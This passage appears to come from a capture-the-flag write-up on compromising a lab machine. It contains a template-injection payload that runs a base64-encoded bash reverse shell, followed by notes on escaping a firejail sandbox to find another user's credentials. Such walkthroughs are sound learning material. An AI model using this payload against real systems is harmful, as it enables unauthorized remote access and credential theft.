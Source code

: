 What works is a `base64` encoded bash reverse shell command since the UID of the key cannot have `>` or `<` characters.&#x20;

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMSAK | base64 -d | bash').read() }}
```

<figure><img src="../../.gitbook/assets/image (596).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Silentobserver Creds

When trying to write some files, I kept getting this error:

{% code overflow="wrap" %}
```
atlas@sandworm:~/.ssh$ echo 'key' >> authorized_keys
<UKeJR102N+sZgwA/2RE+v kali@kali' >> authorized_keys
bash: authorized_keys: Read-only file system
```
{% endcode %}

Something is blocking us on the machine. There are some other users present on the machine:

```
atlas@sandworm:/home$ l
atlas/  silentobserver/
```

Viewing the user's directory reveals a `firejail` file:

```
atlas@sandworm:~/.config$ s -la
ls -la
total 12
drwxrwxr-x 4 atlas  atlas   4096 Jan 15 07:48 .
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 ..
dr-------- 2 nobody nogroup   40 Jun 19 19:43 firejail
drwxrwxr-x 3 nobody atlas   4096 Jan 15 07:48 httpie
```

Firejail is a security sandbox which restricts a lot of features, thus explaining why we cannot create files. When looking at the files within this directory, we can find some credentials for the next user:
